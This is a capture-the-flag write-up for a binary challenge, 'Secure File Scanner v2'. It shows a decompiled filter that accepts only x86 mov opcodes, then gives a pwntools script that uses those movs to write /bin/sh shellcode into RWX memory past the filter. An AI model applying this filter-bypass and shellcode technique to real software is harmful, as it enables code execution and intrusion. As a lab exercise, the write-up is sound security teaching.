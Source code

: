 # Writeup: Secure File Scanner v2

This challenge is a continuation of the previous one, but with a new vulnerability.

## Step 1: Analyzing the Binary

Analyzing with a decompiler you can figure out how the opcodes are filtered, the
original version of the filter function is the following:

```c
unsigned char sanitize_driver(unsigned char *driver, unsigned short len) {
  for (unsigned short i = 0; i < len;) {
    unsigned char modifier = NOSHIFT;

    // arg modifier *2
    if ((driver[i] & 0b11111000) == 0x48) {
      modifier = SHL;
      i++;
    }

    // arg modifier /2
    if (driver[i] == 0x66 || driver[i] == 0x67) {
      modifier = SHR;
      i++;
    }

    // MOV r - imm
    if ((driver[i] & 0b11111000) == 0xb0) { // 8 bit reg
      i += op_argsize(1, modifier) + 1;
      goto endloop;
    }
    if ((driver[i] & 0b11111000) == 0xb8) { // 32 bit reg
      i += op_argsize(4, modifier) + 1;
      goto endloop;
    }

    // MOV r/m - imm
    if (driver[i] == 0xc6 || driver[i] == 0xc7) {
      i += 1 + 1 + 4;
      goto endloop;
    }

    // MOV r - r/m
    if ((driver[i] & 0b11111100) == 0x88) {
      i++;

      switch (driver[i] >> 6) {
      case 0: // no displacement
        if ((driver[i] & 0b00000111) == 0b00000101)
          i += 4;
        break;
      case 1: // displacement 8bit
        i += 1;
        break;
      case 2: // displacement 32bit
        i += 4;
        break;
      case 3: // no displacement
        break;
      }
      i++;
      goto endloop;
    }

    return 1;

  endloop:
    if (i > len)
      return 1;
  }

  driver[len] = '\xc3'; // ret call
  return 0;
}
```

You can see from reading the [Instruction reference](http://ref.x86asm.net/coder64.html)
(or by reading the comments) that only `mov` instructions are accepted.

## Step 2: Shell script

Since the memory on which the driver is written is RWX, you can dynamically modify
the bytecode sent to the challenge when you use the driver. To do this you need:

- a `mov` that saves the n-th part of you shellscript to a register (let's say `rax`);
- another `mov` that writes the content of `rax` after all the moves.

In this way after the movs are executed, instead of returning directly, the program
executes the arbitrary code written with the previous `mov` instructions:

```python
def generate_scanner_instructions() -> bytes:
    MOVABS_LEN = 10
    MOVQ_LEN = 7

    shellcode = asm(shellcraft.sh())
    len_shellcode = len(shellcode)
    mov_needed = len_shellcode // 8
    movs = []

    for i in range(mov_needed):
        movs.append(f"mov rax, 0x{shellcode[i * 8 : i * 8 + 8][::-1].hex()}")
        movs.append(
            f"mov [rip+{(mov_needed - 1 - i) * (MOVABS_LEN + MOVQ_LEN) + i * 8}], rax"
        )
    return asm("\n".join(movs))
```
